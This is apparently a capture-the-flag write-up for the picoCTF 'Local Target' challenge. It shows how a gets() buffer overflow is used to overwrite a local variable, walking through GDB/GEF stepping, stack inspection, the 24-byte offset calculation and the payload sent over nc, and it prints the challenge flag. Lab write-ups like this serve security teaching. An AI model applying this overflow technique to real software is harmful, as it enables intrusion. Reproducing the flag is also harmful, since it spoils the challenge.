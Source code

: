 ## Writeup : Local Target

## Overview
This challenge involves exploiting a buffer overflow vulnerability to manipulate the value of a local variable in order to reveal a flag. The goal is to change the value of the local variable `num` to 65, which will trigger a condition to print the flag.

## Analysis

### Code Overview

The provided code includes a  buffer overflow vulenrability:

```c
gets(input);
printf("\n");
```

The code also has a check to see if `num` equals 65:

```c
 if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
```
### Vulnerability Details
The `gets` function is used to read user input into the `input` buffer. This function is vulnerable because it does not performbounds checking, allowing us to overwrite adjacent memory, including the local variable `num`.

## Exploitation Strategy

1. **Determine Offset**: Use a debugger (such as GDB) to calculate the offset between the buffer and the local variable `num`.
2. **Carft Payload**: Create a payload that overwrites the `num` variable with the value 65.

## Exploitation Steps
1. **Start Debugging**:

```terminal
$ gdb local-target
gef➤  break main
gef➤  run
```
2. **Observe the Execution**:
Use the `next` command(`ni`) to step through the code until you reach the `gets` function call:

```terminal
gef➤  ni
gef➤  ni
...
gef➤  ni 
```
Example output when reaching the `gets` function call:

```terminal
0x401275 <main+63>	call	0x401110 <gets@plt>
```

3. **Input Data**:
When prompted for input, provide a string to observe how it overwites memory:
 

```terminal
gef➤  
AAAAA
```

4. **Check Memory Layout**:
Use the `telescope` command to view the stack and find the address of the buffer:


```terminal
gef➤  tele
0x00007fffffffdd00│+0x0000: 0x0000004141414141 ("AAAAA"?)        ← $rax, $rsp
0x00007fffffffdd08│+0x0008: 0x00007ffff7fe6c40  →  <dl_main+0> push rbp
0x00007fffffffdd10│+0x0010: 0x0000000000000000
0x00007fffffffdd18│+0x0018: 0x00007fff00000040 ("@"?)
0x00007fffffffdd20│+0x0020: 0x0000000000000001   ← $rbp
0x00007fffffffdd28│+0x0028: 0x00007ffff7defc8a  →  <__libc_start_call_main+122> mov edi, eax

```

the address `0x00007fffffffdd00` is where the buffer starts.

5. **Find Local Variable Address**:
Continue stepping through the code to reach the comparison (`cmp`) instruction:

```terminal
gef➤  ni
gef➤  ni
...
gef➤  ni 
```
Example output when reaching the `cmp` instruction:
```terminal
0x4012a9 <main+115>       cmp    DWORD PTR [rbp-0x8], 0x41
```

This corresponds to:

```c
if( num == 65 )
```

`[rbp-0x8]` indicates that the address of `num` is 8 bytes below `rbp`.

Check the exact address of `num`:

```terminal
gef➤  x/wx $rbp-0x8
0x7fffffffdd18: 0x00000040
```
The address `0x7fffffffdd18` contains the value `0x40` (64 in decimal), which is the initial value of `num`.

6. **Calculate Offset**:
Compute the offset between the buffer and `num`:

```terminal
$ python            
Python 3.11.6 (main, Oct  8 2023, 05:06:43) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x7fffffffdd18-0x00007fffffffdd00
24
```

The offset is 24 bytes.

7. **Craft Payload**:
Construct payload to overwrite `num` with 65. Input 24 characters followed by `A` (which has a decimal value of 65):

```terminal
$ nc saturn.picoctf.net 49575
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
```

## Conclusion
By exploiting the buffer overflow vulnerability, you can overwrite the local variable `num` with the value 65. This allows you to pass the condition check and reveal the flag.
